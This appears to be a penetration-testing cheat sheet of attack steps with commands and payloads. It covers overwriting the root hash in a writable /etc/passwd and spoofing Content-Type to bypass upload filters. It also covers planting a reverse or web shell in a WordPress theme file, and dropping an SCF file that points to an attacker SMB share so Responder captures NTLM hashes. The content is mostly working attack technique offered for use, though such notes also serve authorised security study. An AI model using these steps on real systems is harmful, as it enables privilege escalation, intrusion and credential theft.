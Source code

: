 
# /etc/passwd Writable

Insert Root Password Hash
```
openssl passwd passwordofchoice

Note: The extra steps below are precautionary instead of edit in place.
cp /etc/passwd /tmp/passwd.orig
cp /etc/passwd /tmp/passwd

vi /tmp/passwd
root:generatedhash:0:0:root:/root:/bin/bash

cp /tmp/passwd /etc/passwd
```

# File Upload Bypass

## Image Upload Bypass

Change the Content-Type Header to the Expected Type
`Content-Type: image/jpeg`

# HTTP

## WordPress

Edit an active template page (e.g., 404.php) to execute a reverse shell or web shell to send a reverse shell.
```
Appearance > Editor > page.php

Execute the file:
http://target/wordpress/wp-content/themes/themenamenospaces/page.php
```

# SMB

SCF (Shell Command Files)

```
Start responder: sudo responder -v -I interface

(Note: Filename starts with @ to bring file to top of directory listing)
Contents of @test.scf:

[Shell]
Command=2
IconFile=\\attacker\share\test.ico
[Taskbar]
Command=ToggleDesktop

Deliver file.

When user opens file, an SMB connection will be made to the attacker, which should be captured by responder, revealing an NTLM hash.
```